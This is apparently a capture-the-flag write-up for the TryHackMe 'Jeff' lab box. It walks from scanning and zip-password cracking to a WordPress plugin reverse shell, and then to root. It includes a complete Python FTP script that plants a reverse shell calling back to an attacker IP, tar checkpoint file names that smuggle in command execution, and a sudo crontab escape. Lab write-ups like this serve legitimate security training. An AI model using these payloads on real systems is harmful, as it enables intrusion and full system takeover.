In this walkthrough, we'll go over a challenge (hard) level box called ***Jeff*** on [TryHackMe](https://tryhackme.com/room/jeff) 



Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.238.1 --open
```
Per the nmap result, it looks like ports 22 and 80 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-23 10:00 EDT
Nmap scan report for 10.10.238.1
Host is up (0.33s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7e:43:5f:1e:58:a8:fc:c9:f7:fd:4b:40:0b:83:79:32 (RSA)
|   256 5c:79:92:dd:e9:d1:46:50:70:f0:34:62:26:f0:69:39 (ECDSA)
|_  256 ce:d9:82:2b:69:5f:82:d0:f5:5c:9b:3e:be:76:88:c3 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.86 seconds
```

Let's add this to the /etc/hosts file:
```bash
10.10.238.1 jeff.thm
```


We can run dirsearch `dirsearch -u http://jeff.thm -r -f -t 50 -x 302,400,403,500,503`:


We find a zip file called "backup.zip" under "/backups" directory:


The backup file is password protected so we use the following script to crack the password `fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt backup.zip`:


Using the password of "!!Burningbird!!", we can unzip the file and there is a file called "wpadmin.bak" and it has a wordpress password of ***phO#g)C5dhIWZn3BKP***

At this point, we can run a sub-domain enumeration to find a wordpress site with the following wfuzz script `wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hl 1 --hc 400 -H "Host: FUZZ.jeff.thm" -u http://jeff.thm -t 100`:


We then add "wordpress.jeff.thm" to "/etc/hosts" file after that we can go to the wordpress site:


We run cmsmap on the wordpress site to find potential vulnerable plugins and users `python3 cmsmap.py "http://wordpress.jeff.thm" -f W`:



The user, jeff is found and decided to login to the wordpress site with the below credentials:

Username | Password
----------- | ----------
jeff | phO#g)C5dhIWZn3BKP

With the above credentials, we can login to the wordpress admin console:


Trying to change the 404.php page will give us an error, in this case we need to use "php_everywhere" plugin and here are the steps:

1. Download "PHP Everywhere" Plugin
2. Install the plugin
3. Add a new page
4. Add your reverse shell in the PHP Everywhere text box:

5. Make sure to refer to the section with `[php_everywhere]`
6. Start a nc listener
7. Hit "Preview":


Found credentials:

Source | username | password | db file | ftp file
-------- | -------- | ------------ | -------- | ---------
ftp_backup.php | backupmgr | SuperS1ckP4ssw0rd123! | db_backup/backup.sql | backup.sql

At this point, we need to use the below Python script to access the ftp server
```python
#!/usr/bin/env python3.7

from ftplib import FTP
import io
import os
import fileinput

host="172.20.0.1"
username="backupmgr"
password="SuperS1ckP4ssw0rd123!"

ftp=FTP(host=host)

ftp.login(user=username,passwd=password)
ftp.getwelcome()

ftp.set_pasv(False)
ftp.dir()
ftp.cwd('/files')

payload=io.BytesIO(b'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.6.172",5556));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
empty=io.BytesIO(b'')

ftp.storlines('STOR rev.sh', payload)
ftp.storlines('STOR --checkpoint=1', empty)
ftp.storlines('STOR --checkpoint-action=exec=sh rev.sh', empty)

ftp.quit()
```

After running `chmod +x ftp.py` and running the file as follwos `./ftp.py` we receive a shell back as backupmgr:


After this second shell, we find systools in "/opt" folder, message.txt has the below note in it:


We then delete message.txt and link "/var/backups/jeff.bak" to "/opt/systool/message.txt" and run systools by entering 2 and 3



Let's login as jeff with su command and read the contents of user.txt (convert to MD5):


I try to run `sudo -l` and it may give us an error that it only exists in "/usr/bin/sudo" and use the absolute path with the password of ***123-My-N4M3-1z-J3ff-123***


We are able to ssh into the server with the following creds:

Username | Password
----------- | --------
jeff | 123-My-N4M3-1z-J3ff-123

After running `/usr/bin/sudo /usr/bin/crontab -e`, then press escape and type `:!/bin/sh` which will give you a root shell:


Finally, we have done it, we the root user.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
